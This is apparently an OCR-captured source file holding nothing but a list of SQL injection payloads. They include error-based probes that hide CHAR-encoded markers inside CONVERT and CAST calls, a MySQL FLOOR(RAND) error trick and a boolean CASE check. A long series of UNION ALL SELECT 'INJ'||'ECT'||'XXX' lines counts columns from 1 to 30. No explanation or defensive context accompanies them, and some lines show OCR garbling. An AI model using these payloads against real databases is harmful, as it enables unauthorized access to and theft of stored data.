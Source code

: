      AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
     AND 5650=CONVERT(INT,(SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (5650=5650) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))
     AND 3516=CAST((CHR(113)||CHR(106)||CHR(122)||CHR(106)||CHR(113))||(SELECT (CASE WHEN (3516=3516) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(106)||CHR(107)||CHR(113)) AS NUMERIC)
     AND (SELECT 4523 FROM(SELECT COUNT(*),CONCAT(0x716a7a6a71,(SELECT (ELT(4523=4523,1))),0x71706a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
     UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX'
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
     UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
     UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 